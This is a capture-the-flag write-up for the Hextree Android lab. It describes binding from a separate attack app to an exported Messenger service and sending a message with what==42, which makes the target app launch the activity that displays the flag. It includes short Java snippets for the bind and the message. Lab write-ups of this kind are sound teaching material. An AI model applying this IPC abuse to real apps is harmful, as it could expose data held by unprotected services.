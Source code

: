 ```yaml
---
layout: post
title: Exploiting Flag26Service – Android Messenger-Based Service (Hextree CTF)
categories: android
date: 2025-06-09
tags:
  - Android
  - IPC
  - Messenger
  - Android
  - CTF
  - Hextree
  - Android
  - Services
  - App
  - Security
pin: false
comments: true
toc: true
---
```


# Exploiting Flag26Service – Android Messenger-Based Service (Hextree CTF)

## 🔍 Challenge Overview

We're given a bound `Service` called `Flag26Service`, which exposes a `Messenger` IPC interface using `onBind()`:

```java
@Override
public IBinder onBind(Intent intent) {
    return this.messenger.getBinder();
}
````

The service uses a `Handler` to process incoming messages. When it receives a message with `what == 42`, it triggers this function:

```java
private void success(String str) {
    Intent intent = new Intent(this, Flag26Activity.class);
    intent.putExtra("secret", secret);
    intent.putExtra("what", 42);
    intent.addFlags(268468224);
    intent.putExtra("hideIntent", true);
    startActivity(intent);
}
```

This launches the activity containing the flag, passing the secret and flag trigger values via the `Intent`.

---

## 🚧 The Catch

Even if you successfully bind to the service and send `Message.what == 42`, **`Flag26Activity` is not exported**:

```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag26Activity"
    android:exported="false"/>
```

This means the activity **cannot be launched** from your external app **unless the target app is already in the foreground or running in the background**.

---

## ✅ Solution Steps

### 1. Create a separate app

This is your attack app.

### 2. Bind to the service

Use `Context.BIND_AUTO_CREATE` to connect to the exported `Flag26Service`.

```java
Intent intent = new Intent();
intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag26Service");
bindService(intent, connection, Context.BIND_AUTO_CREATE);
```

### 3. Send the trigger message

Use a `Messenger` to send a message with `what == 42`.

```java
Message msg = Message.obtain(null, 42);
serviceMessenger.send(msg);
```

### 4. Bring the app to the foreground

Since `Flag26Activity` is not exported, the service **won’t launch it** unless the app is running in the foreground.

✅ **Workaround:**
After pressing the attack button, **manually open the target app** (`io.hextree.attacksurface`) to bring it to the foreground.
This will allow `startActivity(intent)` inside the service to succeed.

---

## 🏁 Flag Retrieval

Once the activity is launched, it checks if the passed `secret` matches the static `Flag26Service.secret`, and shows the flag if so:

```java
if (Flag26Service.secret.equals(stringExtra)) {
    success(this);
}
```

✅ **The flag is displayed inside `Flag26Activity` UI or logged using the internal `LogHelper` class.**

---

Thanks for reading 🙌